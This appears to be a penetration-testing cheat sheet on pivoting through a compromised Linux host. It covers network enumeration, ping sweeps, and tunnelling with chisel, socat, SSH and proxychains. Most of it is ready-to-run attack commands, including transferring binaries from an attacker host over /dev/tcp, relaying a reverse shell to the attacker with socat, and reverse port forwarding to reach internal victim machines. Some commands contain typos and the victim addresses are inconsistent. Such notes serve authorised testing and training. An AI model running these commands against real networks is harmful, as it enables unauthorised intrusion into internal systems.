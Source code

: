 # Pivoting in Unix/Linux

## Pivoting in Unix/Linux

We may be in a situation where we are in an operating system that has more than one network interface, this could be physical, virtual, or even a container environment. 

## Pivoting Enumeration

### Enumerating the ARP Table

The ARP table contains IP addresses of hosts that the target has interacted with recently. We can enumerate it with:

```text
arp -a
```

### Enumerating Name Resolution

On Unix/Linux systems, we can find the name resolution mappings in:

```text
/etc/hosts
```

On Unix/Linux there is a file that identifies local DNS servers:

```text
/etc/resolv.conf
nmcli dev show
```

### Enumerating Network Interface Cards \(NICs\)

First, we must enumerate the subnets that are on the operating system, we can do this with **ipconfig** or **ip** commands:

```text
ifconfig
ip a
```

Then we must review the output:

```text
enp0s10f1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.10  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  

enp0s20f2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 20.20.20.10  netmask 255.255.255.0  broadcast 20.20.20.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  
```

In this example we see more than one network interface, however, we don't have access to the other network \`20.20.0.10\`. On the victim machine, we can perform a ping sweep to use ICMP and see which hosts are up and running. 

### Enumerating Hosts

```text
fping -a -g 20.20.20.0/24 2>/dev/null
nmap -sn 20.20.20.0/24
for i in {1..254} ;do (ping 20.20.20.$i -c 1 -w 5  >/dev/null && echo "20.20.20.$i" &) ;done
for i in {1..255}; do (ping -c 1 20.20.20.${i} | grep "bytes from" &); done

```

Another host has been found \`20.20.20.15\` and has ports 80 and 22 open, but because we can not access this machine, we have to use the machine 10.10.10.10 to make a reverse port forwarding of the 20.20.20.20:80 and 20.20.20.20:22 to the ports of the attacker machine. This is where pivoting comes into place.

Here for the notes, we will have this special nomenclature:

* 20.20.20.15 -&gt; **victim machine**
* 10.10.10.10 -&gt; **pivoting machine**
* attacker -&gt; **attacker machine**

## Pivoting with chisel

Get chisel and build it.

```text
git clone https://github.com/jpillora/chisel
cd chisel
go blid -ldflags "-s -w" .
upx brute chisel
```

Send the chisel binary to the pivoting machine

* On attacker machine

```text
md5sum chisel
nc -nlvp 443 < chisel
```

* On pivoting machine

```text
cat > chisel < /dev/tcp/<attacker ip>/443
md5sum chisel
chmod +x chisel
```

* Create reverse port forwarding with the victim machine ports to bind attacker machine ports
  * On attacker machine

```text
./chisel server --reverse -p 1234
```

* On pivoting machine

```text
./chisel client <attacker ip>:1234 R:127.0.0.1:80:<victim ip>:80 R:127.0.0.1:222:<victim ip>:22
```

Now the attacker can check the web app on `localhost:80` or use `ssh 127.0.0.1 -p 222`

## Pivoting with socat

Get socat static binary:

```text
wget https://github.com/aledbf/socat-static-binary/releases/download/v.0.0.1/socat-linux-amd64
```

Send socat to pivoting machine:

* On attacker machine

```text
md5sum socat
nc -nlvp 443 < socat
```

* On pivoting machine

```text
cat > socat < /dev/tcp/<attacker ip>/443
md5sum socat
chmod +x socat
```

Prepare the attacker machine for listening:

```text
nc -nlvp 7979
```

Tunnel TCP data for a reverse shell from the victim to the attacker:

* On Pivoting Machine

```text
./socat TCP-LISTEN:4545,fork tcp:<attacker ip>:7979 &
```

We should have a reverse shell.

## Pivoting with SSH

#### SOCKS Proxy

```text
ssh -D8080 [user]@[host]

ssh -N -f -D 9000 [user]@[host]
-f : ssh in background
-N : do not execute a remote command
```

Cool Tip: Konami SSH Port forwarding

```text
[ENTER] + [~C]
-D 1090
```

#### Local Port Forwarding

```text
ssh -L [bindaddr]:[port]:[dsthost]:[dstport] [user]@[host]
```

#### Remote Port Forwarding

```text
ssh -R [bindaddr]:[port]:[localhost]:[localport] [user]@[host]
ssh -R 3389:10.1.1.224:3389 root@10.11.0.32
```

## Proxychains

### SSH Dynamic Port Forwarding

If the target has more than one NIC and more than one network subnet than we can use proxychains.

In Kali edit the proxychains configuration file:

```text
sudo vim /etc/proxychains.conf
```

Add this lines:

```text
[ProxyList]
socks4 127.0.0.1 8080
```

Perform a dynamic port forwarding to our port 8080

```text
sudo ssh -N -D 127.0.0.1:8080 username@<target-IP>
```

Then scan with nmap and specify a TCP scan with `-sT` and don't use `ICMP` with `-Pn`.

```text
proxychains nmap -p- -sT -Pn <target-Second-Interface-IP>
```





